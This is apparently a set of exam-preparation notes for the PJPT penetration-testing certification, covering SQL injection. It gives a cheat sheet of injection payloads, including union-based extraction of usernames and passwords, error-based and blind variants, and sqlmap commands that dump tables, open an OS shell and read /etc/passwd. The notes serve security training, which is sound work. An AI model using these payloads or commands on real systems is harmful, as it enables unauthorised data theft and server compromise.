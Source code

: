 ## PJPT Exam Tips

### Essential Payloads to Memorize
```sql
# Detection
'
' OR '1'='1
' UNION SELECT NULL--

# Union injection
' UNION SELECT 1,database(),version()--
' UNION SELECT username,password FROM users--

# Error-based
' AND (SELECT ExtractValue(1,CONCAT(0x7e,(SELECT database()),0x7e)))--

# Boolean blind
' AND (SELECT SUBSTRING(database(),1,1))='t'--

# Time-based blind
' AND IF((SELECT database())='test',SLEEP(5),0)--
```

### SQLMap Essential Commands
```bash
# Basic enumeration
sqlmap -u "URL" --dbs
sqlmap -u "URL" -D database --tables
sqlmap -u "URL" -D database -T table --dump

# OS interaction
sqlmap -u "URL" --os-shell
sqlmap -u "URL" --file-read="/etc/passwd"
```

### Documentation Requirements
1. **Injection point identification**
2. **Payload used** and query reconstruction
3. **Database type** and version
4. **Data extracted** with proof
5. **File access/upload** if achieved
6. **Command execution** if possible

### Common Exam Scenarios
- **Login form** SQL injection
- **Search functionality** injection
- **URL parameter** injection
- **Cookie-based** injection
- **Blind injection** requiring boolean/time-based techniques

---

**Note**: Always ensure proper authorization before testing SQL injection. These techniques should only be used in authorized penetration testing scenarios or controlled lab environments. SQL injection can cause data loss or corruption if not performed carefully. 